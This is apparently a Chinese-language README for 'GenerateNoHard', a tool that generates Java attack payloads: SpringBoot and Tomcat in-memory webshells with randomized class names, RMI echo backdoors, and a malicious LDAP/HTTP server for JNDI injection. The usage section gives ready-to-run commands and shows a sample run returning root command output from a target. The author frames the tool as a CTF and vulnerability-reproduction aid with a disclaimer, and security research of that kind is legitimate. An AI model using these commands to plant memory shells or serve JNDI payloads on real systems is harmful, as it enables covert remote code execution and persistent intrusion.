 GenerateNoHard



本工具的定位是快速生成Java安全相关的Payload，如内存马、反序列化链、JNDI url、Fastjson等，动态生成相关Payload，并附带相应的文档。文档中会将链路的关键函数、注意事项和小细节罗列出来，方便快速唤醒记忆。但现在也就只有一个SpringBoot和Tomcat的内存马，以后慢慢更新吧233。



产生要写这个工具的想法是在之前做CTF题和复现漏洞的时候，当需要内存马、JNDI url等payload时，总要复习一遍笔记，重新调一调过一遍流程才会构造。效率十分低下。毕竟都是已经学过一遍调过好几遍的东西，还得这样浪费时间重调，十分不友好。虽然学习时也有笔记，但是过于冗杂，只适合初学看，已经了解过的再看容易抓不住重点。所以我便想写一个payload生成工具的同时附带文档，文档中提示关键函数以方便复习时断点调试，记录细节以免重蹈覆辙。




**项目结构**

```shell
- com
  - client
    - Rmi.java - 连接Rmi export Object客户端
  - dto
    - ClassDto.java - 存放类字节码
  - generate
    - Tomcat.java - 生成Tomcat內存马（目前只有Filter）
    - SpringMvc.java - 生成SpringMvc內存马
  	- RmiBind.java - 生成RMI bind
  	- Jndi.java - 启动JNDI服务
  	- PostGenerate.java - 生成指定格式的Payload
    - Payload.java - 生成Payload（目前只有命令执行一种）
  	- Utils.java - 工具类，目前主要是用来生成随机名
  - server
  	- HttpServer.java - HTTP服务
  	- LdapServer.java - Ldap服务
  - utils
  	- Bcel.java - 就是那个Bcel，只不过copy过来了一份，免得有些jdk版本没有
  Main.java - 主类
  Usage.java - 用法类
- resources 
  下面都是动态生成恶意类的模板，顾名思义即可
  xxxx.temp
  .....
```

**需要额外注意的是，为了兼容各个不同版本的中间件和jdk，项目采用的是动态加载依赖jar包的方式进行Payload生成，而依赖jar包放置在项目外的`jars`目录下**


**已支持的Payload**

registerHandler 方式注入SpringBoot内存马

registerMapping 方式注入SpringBoot内存马

Tomcat 6,7,8,9 Filter 通用内存马

Rmi Bind回显内存马


Jndi注入 - URLClassLoader


**特点：**

* 内存马的类名、函数名等均通过随机可读字符串生成
* 通过用try/catch写内存马逻辑，缩小不同版本通用Payload的体积



**Todo**

- [ ] tomcat valve websocket 内存马

- [ ] 可选命令执行或其他

- [ ] JNDI unboundid 接受外带数据（log4shell）

* [ ] spel、ongl、ScriptEngineManager 语句构造


**已知问题**
* Tomcat的内存马Payload不适用于SpringBoot（盲猜是ClassLoader的问题，有空改改）


**关于文档**

文档最近确实没空写233，待我考完证就先把文档补了。


**免责声明**

该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。


# 打包
**目前项目支持Maven打包啦~，只需要在项目根目录下执行`mvn clean package`即可**

依赖Jar放在`jars`目录下，本工具需要依赖这些Jar包生成Payload

# 用法

`-help` 列出帮助选项


**简单示例：**


生成Base64格式，以registerHandler方式注入的SpringBoot内存马

`-url /evilUrl -mode SpringBoot.registerHandler -commandArg cmd -encode base64`


生成Base64格式，以registerHandler方式注入的SpringBoot内存马。并指定请求头的连接密码为`evil=attack`

`-url /evilUrl -mode SpringBoot.registerHandler -commandArg cmd -encode base64 -headerPassword evil=attack`


生成Filter形式的Tomcat内存马class文件，写入到/class目录下。

`-url /evilUrl -mode Tomcat.6789.Filter -commandArg cmd -encode classFile -filePath /class`



生成的内存马还是需要目标存在诸如defineClass、TemplatesImpl这种能执行任意代码的场景下生效。后续尝试加上用CC的invoke method、或者spel表达式等方式注入的生成器。



**JNDI注入**

目前只支持用URLClassLoader方式加载恶意class。

而其中，可选使用本项目生成的内存马作为恶意class，也可自定义一个恶意class



启动恶意LDAP服务器和Web服务器，指定web路径为`/web`。

`-mode Jndi.Ldap.URLClassLoader -httpServerIp 192.168.122.1 -webPath /web -commandArg cmd`

注意最好指定`httpServerIp`参数，该参数不仅是http server监听的ip，同时也是`javaCodeBase`的ip

此时会出现选项

![](./img/1.png)

这里列出了三个项目内置的内存马。而参数中的`-commandArg`是为pringBoot和Tomcat Filter内存马的`url`参数。

若要使用内存马，就复制列出来的全类名，输入到控制台

若不想用这三个内存马，可以自己将恶意类放置到web path中。然后再回到控制台输入恶意类的**全类名**

注意只能绑定一个恶意类，也许能绑定多个？后期我在喵喵。



输入完成后，恶意LDAP服务正式开启

![](./img/2.png)

**rmi echo**

本项目支持生成以rmi export object的方式作回显。由于生成的Payload跳过了rmi registry的环节直接export object。所以若想连接rmi的端口获取回显，需要使用项目`com.client.Rmi`

生成rmi echo payload

```shell
-mode Rmi.Echo -encode base64
-mode Rmi.Echo -encode base64 -rmiExObjPort 3344   //指定rmi object导出端口
```

生成输出

```shell
[+] "Rmi Bind Echo" Memory Shell Generate: 
[+] Remote Object Bind Port: 24159  //rmi 端口
[*] byte length: 3032
[*] string length: 4044
[*] ClassName: org.apache.ext.Descriptions
base64 class byte code:

yv66vgA.....
```

把payload丢到目标环境下，用[加载字节码](./docs/加载字节码)的方式加载

随后再运行`com.client.Rmi`连接

```shell
java -cp ./GenerateNoHard.jar com.client.Rmi 192.168.122.217 24159 id
[+] Result:

uid=0(root) gid=0(root) groups=0(root)
```



可选的encode模式：

* classFile (要和`-filePath`一起使用)
* base64
* hex
* bytes
* bcel
